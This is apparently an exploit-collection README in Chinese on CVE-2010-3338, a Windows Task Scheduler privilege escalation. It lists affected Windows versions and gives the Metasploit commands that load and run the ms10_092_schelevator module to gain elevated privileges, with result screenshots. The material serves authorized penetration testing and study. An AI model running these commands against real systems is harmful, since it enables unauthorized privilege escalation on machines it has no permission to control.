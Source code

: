 ### CVE-2010-3338

#### 描述

Windows Task Scheduler无法正确确定计划任务的安全上下文，这使本地用户可以通过精心设计的应用程序获取特权

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 7           |                  |         |        |                    |
| Windows Server 2008 |                  |         | SP2    | &#10004; |
| Windows Server 2008 |                  |         |        |                    |
| Windows Server 2008 |                  | R2      |        |                    |
| Windows Vista       |                  |         | SP1    |                    |
| Windows Vista       |                  |         | SP2    |                    |

#### 利用方式

测试系统 Windows Server 2008 SP2 x86，利用msf执行如下命令即可，x64版本msf不支持

```
use exploit/windows/local/ms10_092_schelevator
set SESSION 2
run
```

![image-20200822234422637](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2010-3338_win2008_x86_msf.png?raw=true)

然后就能提权成功了

![image-20200822234608009](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2010-3338_win2008_x86_msf2.png?raw=true)

